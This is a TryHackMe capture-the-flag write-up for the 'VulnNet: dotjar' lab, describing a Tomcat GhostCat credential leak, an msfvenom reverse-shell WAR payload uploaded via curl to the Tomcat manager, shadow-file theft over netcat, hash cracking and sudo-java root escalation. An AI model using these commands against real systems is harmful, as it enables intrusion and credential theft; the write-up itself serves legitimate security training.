










# VulnNet: dotjar TryHackMe Writeup
### Level: `Medium` | OS: `Linux`



## Scanning
We scan with **nmap** all ports, scripts and software versions.



## Enumeration
On port 8080 we enumerate a web service with **Tomcat**.



The **Tomcat** version is vulnerable to *"GhostCat"*, so using the following exploit we can exploit the vuln and read the credentials stored in *"WEB-INF/web.xml"*.



## Exploitation
We create a *.war file*
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=XX.XX.XX.XX LPORT=XX -f war -o revshell.war
```
We cannot access from the graphical interface, but we can upload our *.war file* using **curl**.

```bash
curl --user 'user:password' --upload-file m3.war "http://dotjar.thm:8080/manager/text/deploy?path=/m3"
```



#### Reverse shell


We do a little reconnaissance, find a backup of the *"shadow"* file, transfer it to our kali with **netcat**.



We crack the hashes with the **rockyou** dictionary and get the plain password of the user *"jdk-admin"*.



We authenticate as the user *"jdk-admin"*, we see that we have access to the user flag and we can also execute the **java binary** as root.



## Privilege Escalation
Very easy, we generate a *reverse shell* with the **msfvenom** tool and download it to the victim machine.



We run the malicious binary as **SUDO**, we will get a shell as root and we can read the flag.



---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)
